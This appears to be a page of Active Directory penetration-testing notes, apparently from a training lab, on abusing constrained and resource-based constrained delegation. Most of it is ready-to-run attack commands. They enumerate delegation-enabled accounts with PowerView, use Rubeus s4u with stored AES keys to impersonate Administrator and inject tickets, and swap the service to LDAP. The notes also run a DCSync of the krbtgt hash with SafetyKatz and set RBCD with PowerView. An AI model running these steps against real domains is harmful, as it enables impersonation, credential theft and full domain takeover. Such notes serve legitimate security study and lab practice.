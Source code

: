 - To abuse constrained delegation in above scenario, we need to have access to the websvc account. If we have access to that account, it is possible to access the services listed in msDS-AllowedToDelegateTo of the websvc account as ANY user.

- Enumerate users and computers with constrained delegation enabled

```
# Using PowerView
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth

# Using ActiveDirectory module:
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

- We can use the following command (We are requesting a TGT and TGS in a single command):
```
Rubeus.exe s4u /user:websvc /aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7 /impersonateuser:Administrator /msdsspn:CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL /ptt

ls \\dcorp-mssql.dollarcorp.moneycorp.local\c$
```

- Another interesting issue here is that the SPN value in TGS is clear-text.
- This is huge as it allows access to many interesting services when the delegation may be for a non-intrusive service!
- We can use the following command (Note the '/altservice' parameter):
```
Rubeus.exe s4u /user:dcorp-adminsrv$ /aes256:db7bd8e34fada016eb0e292816040a1bf4eeb25cd3843e041d0278d30dc1b445 /impersonateuser:Administrator /msdsspn:time/dcorp-dc.dollarcorp.moneycorp.LOCAL /altservice:ldap /ptt
```
- After injection, we can run DCSync:
```
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```

## Priv Esc - Resource-based Constrained Delegation
- This moves delegation authority to the resource/service administrator.
- Instead of SPNs on msDs-AllowedToDelegatTo on the front-end service like web service, access in this case is controlled by security descriptor of msDS-AllowedToActOnBehalfOfOtherIdentity (visible as PrincipalsAllowedToDelegateToAccount) on the resource/service like SQL Server service.
- That is, the resource/service administrator can configure this delegation whereas for other types, SeEnableDelegation privileges are required which are, by default, available only to Domain Admins.

- To abuse RBCD in the most effective form, we just need two privileges.
	-  Write permissions over the target service or object to configure msDS-AllowedToActOnBehalfOfOtherIdentity.
	-  Control over an object which has SPN configured (like admin access to a domain joined machine or ability to join a machine to domain - ms-DS-MachineAccountQuota is 10 for all domain users)

```
# if we have GenericWrite access we can set RBCD
Set-DomainRBCD -Identity dcorp-mgmt -DelegateFrom 'dcorp-student1$'

Get-DomainRBCD
```
